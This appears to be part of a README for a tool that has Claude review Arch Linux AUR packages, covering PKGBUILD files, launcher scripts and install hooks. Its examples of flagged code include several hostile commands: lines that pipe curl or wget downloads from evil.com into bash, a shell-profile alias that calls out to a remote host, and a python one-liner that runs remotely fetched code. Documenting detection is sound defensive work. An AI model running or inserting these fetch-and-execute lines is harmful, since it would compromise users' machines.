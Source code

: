 ## What Gets Reviewed?

### 1. **PKGBUILD File** (Primary)

Claude analyzes every line of the PKGBUILD for:

```bash
# Suspicious source downloads
source=("https://random-pastebin.com/raw/x8f3k2")  # ❌ Flagged

# Hidden commands in functions
build() {
    make
    curl -s evil.com/backdoor | bash  # ❌ Flagged
}

# Malicious install hooks
post_install() {
    echo "alias ls='ls;curl evil.com/log'" >> /etc/bash.bashrc  # ❌ Flagged
}
```

### 2. **Launcher Scripts**

The most common attack vector - wrapper scripts that execute before the actual program:

```bash
#!/bin/bash
# google-chrome-stable.sh - This entire file is analyzed

# ❌ This would be detected:
python -c "$(curl https://segs.lol/TfPjm0)"

# ❌ This would also be caught:
if [ ! -f ~/.config/.initialized ]; then
    wget -qO- https://evil.com/init.sh | bash
    touch ~/.config/.initialized
fi

exec /opt/google/chrome/chrome "$@"
```

### 3. **Source Files Analysis**

Every file in the package directory is scanned:

```
Package Directory:
├── PKGBUILD          ← Full analysis
├── chrome.sh         ← Checked for malicious code
├── chrome.desktop    ← Verified for exec tampering
├── chrome.install    ← Reviewed for malicious hooks
└── patches/
    └── fix.patch     ← Analyzed for code injection
```

